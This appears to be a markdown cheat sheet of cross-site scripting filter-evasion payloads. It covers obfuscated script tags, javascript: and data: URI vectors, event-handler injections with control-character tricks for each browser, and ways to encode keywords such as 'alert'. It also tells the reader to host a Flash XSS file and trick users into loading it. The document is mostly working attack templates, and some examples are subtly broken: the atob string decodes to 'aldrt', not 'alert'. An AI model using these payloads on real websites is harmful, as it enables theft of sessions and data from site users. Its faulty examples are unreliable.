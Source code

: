 # Filter Evasion

## Common Techniques

### Script tag

#### Weak tag parsing bypass

```
<ScRiPt>...</sCrIpT>
<ScRiPt>...    #unclosed tags
<script/[gibberish]>...<script>
<script [\n\r\t]>...</script>
<script [\x00 \x0D \x0A]>... </script [\x00 \x0D \x0A]>
<scr<script>ipt>...</scr<script>ipt>
```

#### Common alternative tags

Require use interaction

```
<a href="javascript:[code]">show</a>
<a href="data:text/html;base64,[base64 payload]">show</a>

<form action="javascript:[code]><button>Click me</button></form>
<form id="f1"></form><button form="x" formaction="javascript:[code]">Click me</button>

<object data="javascript:[code]">
<object data="text/html:<script>[code]</script>">
<object data="data:text/html;base64,[base64 payload]">
```

#### EvilCos

Can be downloaded from [here](https://github.com/evilcos/xss.swf).

Host the age on a site that you control and trick a user to navigate to it or trigger a HTTP request to the malicious URL.

```
<object data="[evil site]/xss.wfs">
<object data="[evil site]/xss.wfs" allowscriptaccess="always">
```

### Events

#### Common HTML 4

```
<body onload="[code]">
<input type="image" src="x" onerror="[code]">
<isindex onmouseover="[code]">
<form oninput="[code]"><input></form>
<textarea autofocu onfocus="[code]">
<input oncut="[code]">
```

#### Common HTML 5

```
<svg onload="[code]">
<keygen autofocus onfocus="[code]">
<video><source onerror="[code]">
<marquee onstart="[code]">
```

#### Filter Bypass

Bypass filter that match every word that starts with on by exploiting browser dynamisms

```
<svg/onload=...>
<svg///////onload=...>
<svg id="x";onload=...>
<svg id=x;onload=...>
<svg id=`x`onload=...>
```

Bypass filters by exploiting control characters not included in the /s regex selector

```
<svg onload%09=...>
<svg %09onload=...>
<svg %09onload%20=...>
<svg onload%09%20%28%2c%3b=...>
<svg onload%0b=...>
```

List of control characters commonly allowed after the equal sign or just before the event name to  use to spoof filters

```
%09 %0b %0c %20 %3b    #Internet Explorer
%09 %20 %28 %2c %3b    #Google Chrome
%2c %3b                #Safari
%09 %20 %28 %2c %3b    #Firefox
%09 %20 %2c %3b        #Opera
%09 %20 %28 %2c %3b    #Android
```

### Keywords

Some filters try to detect common words used in XSS attacks such as alert, document, xhr, cookie etc...

#### Bypass by encoding

URL encoding, Unicode and CSS formats can be used directly inside HTML pages without needing native tools. These techniques can be combined with each other to form even more complex payloads

```
alert
\u0061lert
&#x0061lert
&#97lert

#the encoding formats below require the input to be in a string
eval('\141lert')
eval('\x61lert')

#useless escapte characters
eval('\a\l\e\rt(\1\)')
```

#### Bypass by constructing strings

```
alert
/ale/.source+/rt/.source
String.fromCharCode(97,108,101,114,116)
atob("YWxkcnQ=")
17795081..toString(36)
```

